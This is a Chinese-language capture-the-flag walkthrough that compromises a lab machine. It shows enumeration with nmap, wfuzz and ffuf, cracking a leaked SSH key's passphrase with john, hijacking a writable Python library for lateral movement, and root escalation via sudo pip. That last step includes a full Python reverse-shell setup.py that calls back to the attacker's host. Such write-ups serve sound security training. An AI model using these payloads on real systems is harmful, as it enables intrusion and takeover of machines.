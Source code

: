 0X00 环境<br />**攻击机：**192.168.1.3<br />**靶机：**192.168.1.9


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 192.168.1.9 -p-
```
![image.png](./assets/1671518059251-6c8f02a8-909e-4f85-a285-2c1fff22583c.png)
可以看到目标机只开放了两个端口。

查看一下80端口的Web页面发现是一张图片，看来一下源码也没有什么内容
![image.png](./assets/1671518232574-cc71a869-cb69-4e5d-a992-8f55d030529e.png)
![image.png](./assets/1671518370587-f7314e03-30e2-4897-aab8-3944afebebd7.png)

扫描以下网站目录结构
![image.png](./assets/1671518775561-8d582d08-9593-4a96-a2fd-77f42763c393.png)

查看上面扫描出来的robots.txt文件
![image.png](./assets/1671518832349-e73f50cd-dc87-43b6-b545-16fc36b7f4d7.png)
访问/~myfiles
![image.png](./assets/1671518861928-b930a432-6cde-46ca-9ae3-f73afb50d38e.png)
![image.png](./assets/1671518879607-d6caa165-edfe-4c20-b987-7484dc0128e9.png)

依照`/~myfiles`这个格式尝试使用[Wfuzz](https://www.yuque.com/xmtxsec/network_security/fx9xgg)进行模糊扫描<br />推荐字典：[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
```
 wfuzz -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -c -u 'http://192.168.1.9/~FUZZ' --hc 404
```
![image.png](./assets/1671520752200-5f13f2cb-a931-4770-a572-30b6235b615a.png)

在浏览器访问 [http://192.168.1.9/~secret/](http://192.168.1.9//~secret/)
![image.png](./assets/1671520944830-4b8f7253-a801-4673-8ebe-c00f302c28b8.png)
通过这段信息我们可以知道需要找到藏在某个地方的ssh私钥文件，icex64可能是用户名。而且创建secret这个目录的原因就是为了分享他的私钥文件，但是我们并没有看到私钥文件，可以猜测私钥文件可能是在secret目录的下一级。

使用[FFUF](https://www.yuque.com/xmtxsec/network_security/phdd91qqlyq3bvb0)继续模糊测试
```
ffuf -u 'http://192.168.1.9/~secret/.FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -e .txt,.pub,.html,.bak -mc 200

-u    指定扫描路径
-w    指定字典
-e    指定要筛选的后缀
-mc   指定要筛选的状态码
```
![image.png](./assets/1671522778959-429a32be-7a8d-4d8b-ae19-1c0778620e9a.png)

访问mysecret.txt，得到一串密文
![image.png](./assets/1671522918001-8f52728b-d054-4ec3-b9c6-bbecc431e908.png)

经过多次尝试后发现使用base58解码成功
![image.png](./assets/1671523035280-bdebc1b8-f823-4c0f-874f-f81ebb1b7fda.png)

将得到的私钥保存到ssh.txt中，并使用john生成密码本
```
/usr/share/john/ssh2john.py ssh.txt > passwd 
```
![image.png](./assets/1671523414108-eeb7d625-d3ed-47d2-bfc1-b3ead4936fe0.png)

使用john爆破，得到密码`P@55w0rd!`
```
john --wordlist=/usr/share/wordlists/fasttrack.txt passwd
```
![image.png](./assets/1671523500727-813ff8cd-ef2c-45b1-b321-8a4eff016166.png)

# 0X02 漏洞利用 
用上面收集到的账号`icex64`和密码`P@55w0rd!`连接SSH
```
ssh icex64@192.168.1.9 -i
```
![image.png](./assets/1671524519880-84c9274f-930d-49ef-a672-982406ef85a5.png)

成功登陆，查看user.txt文件
![image.png](./assets/1671524698410-ca7af7ce-5680-4429-813c-b377907236c1.png)


# 0X03 横向移动
查看当前用户拥有的权限
```
sudo -l
```
![image.png](./assets/1671524820737-50515b42-f98a-4aed-abe1-4d81572fe60e.png)
 有一个arsene免密，还给出了一个python文件的路径。

查看一下这个python文件，发现调用了webbrowser
```
cat /home/arsene/heist.py
```
![image.png](./assets/1671524948401-d01e907b-2d68-4749-87ab-30dc5c9628d1.png)

查找一下webbrowser
```
find /usr -name *webbrowser*
```
![image.png](./assets/1671525279423-0adccfb1-1e0a-4bd3-b761-a0eb560afeb4.png)

查看该文件的权限
```
ls -l /usr/lib/python3.9/webbrowser.py
```
![image.png](./assets/1671525387870-efc84161-596b-4f5e-8f43-3c39be8f7989.png)
具有root权限且当前用户具有编写权限

因为当前用户对webbrowser.py具有编写权限，因此在该文件中写入shell
```
os.system("/bin/bash")
```
![image.png](./assets/1671525889919-b6c607f6-2895-4308-8602-3aa0a440427a.png)

用 arsene 调用 /home/arsene/heist.py，获取arsene权限
```
sudo -u arsene python3.9 /home/arsene/heist.py
```
![image.png](./assets/1671525928826-4b6d259b-57d3-4bba-be52-5f29408db50b.png)

查看 arsene 用户拥有的权限
```
sudo -l
```
![image.png](./assets/1671526003023-46c175a0-d542-43f9-bd1b-f3d9f9b70062.png)
pip命令不需要root密码即可执行


# 0X04 利用pip提权

## 方法一
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
同等于
```
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > setup.py
sudo pip install .
```
成功得到toot权限
![image.png](./assets/1671526741086-9aaea337-94ed-4cd0-b0b4-08dc5f42aa1c.png)


## 方法二
本地启动监听
```
nc -tvlp 9999
```
![image.png](./assets/1671528059147-bd1b5298-2c1f-4a87-8bdc-001b1c067020.png)

编写提权脚本setup.py
```
from setuptools import setup   #加入

def con():
	import socket, time,pty, os
	host='192.168.1.3'
	port=9999
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()

setup(name="hahahaha", version="1.0")  #加入
```

将setup.py上传到目标机
```
python2 -m SimpleHTTPServer 7777
```
![image.png](./assets/1671527940830-2bf27237-80e6-425d-a5d4-09be4c800719.png)
```
wget http://192.168.1.3:7777/setup.py
```
![image.png](./assets/1671527984893-2b03e4bc-e466-4ba5-a062-18d5ea57d325.png)

在靶机上执行
```
sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功反弹shell
![image.png](./assets/1671527667637-dd81ec67-7d15-4b1c-a803-e4b17e793b80.png)


来到root目录下成功得到flag
![image.png](./assets/1671526919472-128e9f27-ccf6-431c-9a3c-a917c8dd1738.png)
